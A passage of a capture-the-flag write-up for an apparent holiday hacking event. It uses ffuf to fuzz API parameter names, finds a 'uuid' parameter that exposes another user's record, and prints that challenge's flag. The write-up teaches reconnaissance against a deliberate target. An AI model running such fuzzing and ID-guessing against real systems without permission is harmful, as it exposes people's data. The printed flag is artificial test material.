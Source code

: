 ```js
{
    "error": "Missing required fields"
}
```

Hmm, looks like there's a parameter missing. Time to get fuzzy once more. This command will call the endpoint with every item in the parameter name word list as the query parameter until it finds a result with a non `400 Bad Request` status code:

```
$ ffuf -w burp-parameter-names.txt -u https://hackyholidays.h1ctf.com/swag-shop/api/user\?FUZZ\=1 -fc 400 -mc all

uuid                    [Status: 404, Size: 40, Words: 5, Lines: 1]
```

Okay, looks like `uuid` is the parameter that makes a well formed request. We do have an ID from before that we could put in as the value of the `uuid`.

**Request:**
```
GET /swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043
```
```js
{
    "uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
    "username": "grinch",
    "address": {
        "line_1": "The Grinch",
        "line_2": "The Cave",
        "line_3": "Mount Crumpit",
        "line_4": "Whoville"
    },
    "flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

## Takeaways
- You'll frequently encounter content encoded as base64 on the web. Protip: If the string starts with `eyJ` it is probably encoded JSON
- Fuzzing is a technique that can be used to discover additional endpoints and how to use them

# Day `0x05`
Another day means another app! Today's challenge is Secure Login:
> Try and find a way past the login page to get to the secret area.
